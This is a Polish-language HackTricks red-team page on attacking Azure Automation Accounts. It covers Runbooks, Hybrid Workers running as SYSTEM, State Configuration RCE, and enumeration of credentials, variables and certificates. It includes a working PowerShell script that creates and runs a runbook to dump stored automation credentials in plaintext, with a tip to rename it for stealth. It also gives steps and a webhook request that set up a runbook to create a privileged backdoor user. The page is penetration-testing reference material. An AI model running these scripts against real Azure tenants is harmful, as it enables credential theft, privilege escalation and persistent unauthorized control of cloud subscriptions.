 # Az - Konto automatyzacji

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Podstawowe informacje

[Z dokumentacji:](https://learn.microsoft.com/en-us/azure/automation/overview) Azure Automation dostarcza usługę automatyzacji w chmurze, aktualizacji systemu operacyjnego i konfiguracji, która obsługuje spójne zarządzanie w Twoim środowisku Azure i nie-Azure. Obejmuje automatyzację procesów, zarządzanie konfiguracją, zarządzanie aktualizacjami, wspólne możliwości i funkcje heterogeniczne.

Są to jak "**zaplanowane zadania**" w Azure, które umożliwiają wykonywanie czynności (działań lub nawet skryptów) w celu **zarządzania**, sprawdzania i konfigurowania **środowiska Azure**.

### Konto Run As

Kiedy jest używane **Konto Run As**, tworzy aplikację Azure AD z samopodpisanym certyfikatem, tworzy **service principal** i przypisuje rolę **Contributor** dla konta w **bieżącej subskrypcji** (wiele uprawnień).\
Microsoft zaleca korzystanie z **Identyfikatora zarządzanego** dla konta automatyzacji.

{% hint style="warning" %}
To zostanie **usunięte 30 września 2023 roku i zmienione na Identyfikatory zarządzane**.
{% endhint %}

## Runbooki i zadania

**Runbooki** pozwalają na **wykonywanie dowolnego kodu PowerShell**. Może to być **wykorzystane przez atakującego**, aby ukraść uprawnienia **dołączonego podmiotu** (jeśli istnieje).\
W **kodzie** **Runbooków** można również znaleźć **wrażliwe informacje** (takie jak dane uwierzytelniające).

Jeśli możesz **odczytać** **zadania**, zrób to, ponieważ **zawierają** **wyjście** wykonania (potencjalnie **wrażliwe informacje**).

Przejdź do `Konta automatyzacji` --> `<Wybierz konto automatyzacji>` --> `Runbooki/Zadania/Grupy hybrydowe pracowników/Zadania obserwatora/Uprawnienia/Zmienne/Certyfikaty/Połączenia`

### Pracownik hybrydowy

Runbook może być uruchamiany w **kontenerze w Azure** lub w **pracowniku hybrydowym** (maszyna spoza Azure).\
Na VM jest wdrażany agent Log Analytics, aby zarejestrować go jako pracownika hybrydowego.\
Zadania pracownika hybrydowego są uruchamiane jako **SYSTEM** w systemie Windows i jako konto **nxautomation** w systemie Linux.\
Każdy pracownik hybrydowy jest zarejestrowany w **grupie pracowników hybrydowych**.

Dlatego, jeśli możesz wybrać uruchomienie **Runbooka** w **pracowniku hybrydowym Windows**, wykonasz **dowolne polecenia** na zewnętrznej maszynie jako **System** (fajna technika pivot).

## Kompromitacja konfiguracji stanu (SC)

[Z dokumentacji:](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview) Azure Automation **State Configuration** to usługa zarządzania konfiguracją Azure, która umożliwia pisanie, zarządzanie i kompilowanie konfiguracji stanu pożądanego PowerShell (DSC) [konfiguracje](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations) dla węzłów w dowolnym centrum danych w chmurze lub lokalnym. Usługa importuje również [zasoby DSC](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources) i przypisuje konfiguracje do docelowych węzłów, wszystko w chmurze. Możesz uzyskać dostęp do konfiguracji stanu Azure Automation w portalu Azure, wybierając **Konfiguracja stanu (DSC)** w sekcji **Zarządzanie konfiguracją**.

**Wrażliwe informacje** mogą być zawarte w tych konfiguracjach.

### RCE

Możliwe jest wykorzystanie SC do uruchamiania dowolnych skryptów na zarządzanych maszynach.

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## Wyliczanie

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### Utwórz Runbook

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### Wyciekaj poświadczenia i zmienne zdefiniowane w koncie automatyzacji za pomocą skryptu uruchamianego

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
Możesz zrobić to samo, modyfikując istniejący Run Book, z poziomu konsoli internetowej.
{% endhint %}

### Kroki do skonfigurowania automatycznego tworzenia użytkownika o wysokich uprawnieniach

#### 1. Inicjalizacja konta automatyzacji
- **Wymagane działanie:** Utwórz nowe konto automatyzacji.
- **Konkretna konfiguracja:** Upewnij się, że opcja "Utwórz konto Azure Run As" jest włączona.

#### 2. Import i konfiguracja Runbooka
- **Źródło:** Pobierz przykładowy runbook z [repozytorium GitHub MicroBurst](https://github.com/NetSPI/MicroBurst).
- **Wymagane działania:**
- Zaimportuj runbook do konta automatyzacji.
- Opublikuj runbook, aby można go było uruchomić.
- Dołącz webhook do runbooka, umożliwiając wyzwalanie zewnętrzne.

#### 3. Konfiguracja modułu AzureAD
- **Wymagane działanie:** Dodaj moduł AzureAD do konta automatyzacji.
- **Dodatkowy krok:** Upewnij się, że wszystkie moduły automatyzacji Azure są zaktualizowane do najnowszych wersji.

#### 4. Przypisanie uprawnień
- **Role do przypisania:**
- Administrator użytkownika
- Właściciel subskrypcji
- **Cel:** Przypisz te role do konta automatyzacji, aby uzyskać niezbędne uprawnienia.

#### 5. Świadomość potencjalnej utraty dostępu
- **Uwaga:** Pamiętaj, że konfiguracja takiej automatyzacji może prowadzić do utraty kontroli nad subskrypcją.

#### 6. Wywołanie tworzenia użytkownika
- Wywołaj webhook, aby utworzyć nowego użytkownika, wysyłając żądanie POST.
- Użyj dostarczonego skryptu PowerShell, upewniając się, że zastąpisz `$uri` rzeczywistym adresem URL webhooka i zaktualizujesz `$AccountInfo` z pożądaną nazwą użytkownika i hasłem.
```powershell
$uri = "<YOUR_WEBHOOK_URL>"
$AccountInfo  = @(@{RequestBody=@{Username="<DESIRED_USERNAME>";Password="<DESIRED_PASSWORD>"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
## Odwołania

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
